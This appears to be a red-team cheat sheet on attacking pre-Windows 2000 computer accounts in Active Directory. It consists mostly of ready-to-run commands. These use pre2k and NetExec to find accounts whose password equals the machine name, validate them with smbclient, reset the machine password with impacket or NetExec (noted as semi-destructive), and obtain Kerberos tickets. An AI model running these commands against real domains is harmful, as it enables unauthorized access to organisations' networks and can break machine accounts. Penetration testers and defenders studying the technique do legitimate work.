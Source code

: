 ___
## TL;DR:

### Identify


**Tools:** [pre2k](https://github.com/garrettfoster13/pre2k), [nxc](https://github.com/Pennyw0rth/NetExec)

**With creds**
```bash
pre2k auth -u <user> -d <DOMAIN> -p <pass> -dc-ip <dcip> -ldaps -save
```
or
```bash
nxc ldap <dc-ip> -u 'user' -p 'pass' -M pre2k
```

**Without creds**
```bash
pre2k unauth -d <DOMAIN> -dc-ip <dcip> -inputfile <listofcomputers> -save
```

!!! alert "Note"
	You can pass `-n` to check blank passwords as well

!!! alert "Manual mode"
	Without using the tool, you can check by identifying `pwdlastset: 12/31/1600 7:00:00PM`

!!! alert "Note"
	The only error that indicates an auth failure is `KDC_ERR_PREAUTH_FAILED` other errors do not mean you can't authenticate

**Validate**
```bash
smbclient.py domain/machinename\$:machinename@dc-ip
```
Expected output: `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`

## Exploit


### Option 1: Change password

!!! alert "Note"
	this is semi-destructive, you're changing the machine password, may require the object be rejoined to the domain


**Change the account password:**
```bash
impacket-changpasswd.py domain/machinename\$:machinename@dc-ip -newpass <pass>
```
or
```bash
nxc smb <dcip> -u machinename$ -p 'machinename' -M change-password -o NEWPASS=NewPassword
```


### Option 2: Use kerberos auth

No need to change the password if you use kerberos auth!

```bash
nxc smb <ip> -u machinename$ -p machinename -k
```

Grab the tgt for use with other tools.
```bash
nxc smb <ip> -u machinename$ -p machinename -k --generate-tgt ticket
```